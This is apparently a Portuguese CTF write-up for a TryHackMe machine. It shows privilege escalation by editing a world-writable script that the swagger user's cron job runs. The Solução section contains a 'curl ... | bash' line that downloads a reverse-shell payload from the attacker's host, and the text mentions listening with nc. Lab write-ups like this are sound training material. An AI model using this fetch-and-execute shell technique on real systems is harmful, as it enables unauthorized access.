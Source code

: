 🚀 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário '👑 `swagger`'

### Situação:
- Existe um arquivo chamado `📜`script.sh`` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-`swagger` user-`swagger` 184 Jun 1 2023 `script.sh`
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário '👑 `swagger`'**, que tem mais privilégios que o usuário atual (`👤 `www-data``).

### Problema:
- Estamos logados como `👤 `www-data``, um usuário limitado.
- Executar o script manualmente com `👤 `www-data`` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `👤 `www-data``.
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei privilégio do meu próprio usuário e consegui, mas não saí do próprio 👤 `www-data`.

### Solução:
1. Editar o 📜 script.sh e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   📡 `  curl http://192.168.100.168:8000/shell_2.sh | bash  `
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `👑 `swagger``, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do '👑 `swagger`' executa o script que você editou**.

---

### Agora vamos alterar o conteúdo do arquivo e colocá-lo para buscar naquele mesmo servidor Python, baixar e executar o comando do arquivo dentro do bash, enquanto escutamos do outro lado com o NC.
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell. Agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que alteramos para enviar o cmd shell.
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)

- Temos duas shells ativas agora: uma do 👤 `www-data` que era fraca e não possuía muitos privilégios, e a do 👑 `swagger` que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)

# Depois de explorar como 👑 `swagger`...
![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

Conteúdo do .backup:
```txt
#!/bin/bash
##### Script em desenvolvimento visualizar containers ######
###########################################################
######## verificando containers em execução ###############
docker ps
a=$(`docker ps` | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
🔍 `docker inspect` $a
```

# Escalando para 🛡️ `root`
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)

# 🖥️ `bash -li` (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
Agora é só ser feliz.

🐳 `docker ps` / 🔍 `docker inspect`
![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
🏁 **Flag Root** 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)
